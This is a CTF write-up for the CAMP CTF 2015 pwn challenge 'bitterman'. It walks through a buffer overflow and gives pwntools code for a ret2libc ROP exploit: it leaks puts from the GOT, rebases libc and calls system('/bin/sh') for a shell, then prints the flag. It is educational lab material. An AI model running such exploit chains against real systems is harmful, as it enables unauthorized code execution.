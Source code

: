 # CAMP CTF 2015: bitterman-300

**Category:** Pwn
**Points:** 300
**Solves:** 31
**Description:**

> Can you exploit this one for me? [bitterman](bitterman) is running on challs.campctf.ccc.ac:10103 This time NX is enabled, to make sure it's not too easy. Here's the [libc](libc.so.6).


## Write-up

# Bitterman

## Recon

Upon connecting, we are given a prompt which asks for the following items:
* Name
* Length of a message
* The message itself

As per normal, let's try the low hanging fruit of throwing lots of data at each field to see if we get a crash.

Turns out, if we say that we will send 1024 bytes and send 1024 bytes, we crash *shrug* (If there is time after the CTF, I'll go back and see what exactly caused the crash)

## Exploit

Because NX is turned on, we need to do some fancy ROP. Our ROP strategy is below:
* Leak a libc address via ROPing to `puts()` with `puts` as the parameter. 
    - This will return the address of `puts` in the libc the binary is using. 
    - We can calculate the libc base address since we were given their libc in the problem (leaked_libc_read_address - original_libc_from_challenge = base_libc_on_server)
* Call main so we can re-exploit with the knowledge of the libc base address.

This ROP construction is here:
```python
from pwn import *

elf = ELF('./bitterman')
rop = ROP(elf)

rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])

print rop.dump()
```

Leaking the address from this ROP chain and rebasing the libc address in pwntools is below:
```python
# Be sure to add the zeros that we miss due to string read
# Grab the first 8 bytes of our output buffer
leaked_puts = r.recv()[:8].strip().ljust(8, '\x00')

# Convert to integer
leaked_puts = struct.unpack('Q', leaked_puts)[0]

# Rebase libc to the leaked offset
libc.address = leaked_puts - libc.symbols['puts']
```

From here, we can create a second ROP which will simply call `system` with `/bin/sh`. Luckily, `/bin/sh` is in libc, so we simply find where that string is, and call `system` with it.

The second ROP construction is below:

```python
# Create new ROP object with rebased libc
rop2 = ROP(libc)

# Call system('/bin/sh')
rop2.system(next(libc.search('/bin/sh\x00')))

print rop2.dump()
```

Our shell is received and the flag is given:

```python
$ ls
bitterman
flag.txt
run.sh
$ cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80
```

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/campctf-2015-bitterman/> 
* <https://github.com/thebarbershopper/ctf-writeups/tree/master/campctf-2015/bitterman-pwn-400>
* [Chinese](http://www.cnhackmy.com/hacked/CTF/2015/09/12/00001675.html)
